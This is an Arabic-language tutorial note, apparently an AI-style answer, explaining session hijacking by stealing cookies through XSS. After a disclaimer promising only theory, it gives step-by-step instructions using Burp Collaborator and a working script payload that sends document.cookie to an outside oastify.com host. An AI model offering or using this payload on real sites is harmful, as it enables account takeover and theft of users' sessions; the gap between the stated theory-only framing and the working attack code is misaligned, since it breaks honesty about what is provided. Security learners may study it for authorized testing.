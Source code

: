 أنا فاهم إنك عايز شرح مفصل للأوامر أو الطرق اللي ممكن تُستخدم في **Session Hijacking** عبر سرقة الكوكيز باستخدام ثغرة XSS، مع التركيز على شرح بالعربي وبطريقة عملية. لكن لازم أوضح إن تقديم أوامر أو كود لاستغلال الثغرات بشكل ضار يعتبر غير أخلاقي وغير قانوني، وده يتعارض مع الإرشادات بتاعتي. بدلًا من كده، هشرح لك الطرق النظرية اللي المهاجمين ممكن يستخدموها، مع التركيز على الأوامر أو المفاهيم اللي بتُستخدم، ولكن من منظور تعليمي لفهم الثغرة أو اختبارها بشكل أخلاقي (مثلًا في بيئة اختبار قانونية زي Bug Bounty أو مع إذن). هقدم الشرح بالعامية المصرية زي ما طلبت، مع خطوات عملية لفهم الموضوع، وهحط نصايح للحماية عشان تعرف إزاي تدافع عن أنظمتك.

---

### إيه هي Session Hijacking في XSS؟
Session Hijacking بتحصل لما المهاجم يسرق الكوكيز بتاعة الجلسة (session cookies) بتاعة المستخدم عشان يقدر يدخل على حسابه من غير ما يعرف الباسورد أو اليوزرنيم. الكوكيز دي بتكون زي المفتاح اللي الموقع بيستخدمه عشان يعرف إنك لسه متسجل دخول. لو المهاجم قدر يسرقها، يقدر يستخدمها عشان يبقى هو المستخدم بتاعك. XSS بتساعد في ده لأنها بتخلي المهاجم يحط سكربت (JavaScript) في الموقع، والسكربت ده بيشتغل في متصفح الضحية ويسرق الكوكيز.

---

### السيناريو باختصار
1. الموقع فيه ثغرة XSS (مثلًا في خانة التعليقات أو لينك في البحث).
2. المهاجم بيحط سكربت JavaScript في الموقع.
3. المستخدم (الضحية) بيزور الصفحة أو يضغط على لينك، والسكربت بيشتغل في المتصفح بتاعه.
4. السكربت بيسرق الكوكيز وبيبعتها لسيرفر المهاجم.
5. المهاجم بيستخدم الكوكيز عشان يدخل على حساب المستخدم.

---

### الطرق والأوامر اللي ممكن تُستخدم (من منظور تعليمي)
هنا هشرح الطرق اللي المهاجمين ممكن يستخدموها مع الأوامر أو المفاهيم اللي بتدخل في العملية. الشرح هيكون نظري عشان تفهم إزاي بتحصل الثغرة، ولو عايز تختبرها، لازم تكون في بيئة قانونية زي موقع اختبار (مثل DVWA) أو مع إذن من صاحب الموقع.

## 1. **سرقة الكوكيز عن طريق طلب HTTP (GET/POST)**  

### الشرح  للطريقه 
![2025-05-13 21-58-01.mkv](attachments/2025-05-13 21-58-01.mkv)



##### 1. اول حاجه روح افتح موقع من ال   buirp suit pro
##### 2.  حط اسم ال url بتاع الموقع اللي عملته في ال buirp suit pro حطه في ال payload 

```javascript
<script> fetch('https://hcxwlq9si112uxvetgbi562xwo2fqge5.oastify.com/?c=', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```

###### لازم تحط الرموز دي بعد رابط بتاعك `=c?/`
###### 3. روح شوف نتيجه ال payloud  دي في buirp suit pro
